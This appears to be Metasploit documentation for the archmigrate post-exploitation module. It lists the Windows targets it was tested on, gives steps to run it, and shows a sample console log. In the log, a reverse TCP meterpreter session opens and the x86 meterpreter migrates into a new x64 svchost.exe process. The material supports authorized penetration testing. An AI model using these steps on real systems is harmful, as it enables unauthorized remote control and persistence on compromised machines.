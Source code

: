## Creating A Testing Environment

To use this module you need an x86 executable type meterpreter on a x64 windows machine.

This module has been tested against:

  1. Windows 10.
  2. Windows 7.
  3. Windows Server 2008R2

This module was not tested against, but may work against:

  1. Other versions of Windows that are x64.

## Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session with an executable meterpreter via whatever method
  3. Do: 'use post/windows/manage/archmigrate'
  4. Do: 'set session #'
  5. Do: 'run'

## Scenarios

### Windows 10 x64

```
    msf exploit(handler) > run

    [*] Started reverse TCP handler on <MSF_IP>:4567
    [*] Starting the payload handler...
    [*] Sending stage (957487 bytes) to <Win10x64_IP>
    [*] Meterpreter session 1 opened (<MSF_IP>:4567 -> <Win10x64_IP>:50917) at 2017-03-22 11:43:42 -0500

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    meterpreter > background
    [*] Backgrounding session 1...
    msf exploit(handler) > use post/windows/manage/archmigrate
    msf post(archmigrate) > set session 1
    session => 1
    msf post(archmigrate) > run

    [*] The meterpreter is not the same architecture as the OS! Upgrading!
    [*] Starting new x64 process C:\windows\sysnative\svchost.exe
    [+] Got pid 1772
    [*] Migrating..
    [+] Success!
    [*] Post module execution completed
    msf post(archmigrate) > sessions -l

    Active sessions
    ===============

      Id  Type                     Information                               Connection
      --  ----                     -----------                               ----------
      1   meterpreter x64/windows  DESKTOP-SO4MCA3\tmoose @ DESKTOP-SO4MCA3  <MSF_IP>:4567 -> <Win10x64_IP>:50917 (<Win10x64_IP>)

    msf post(archmigrate) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```
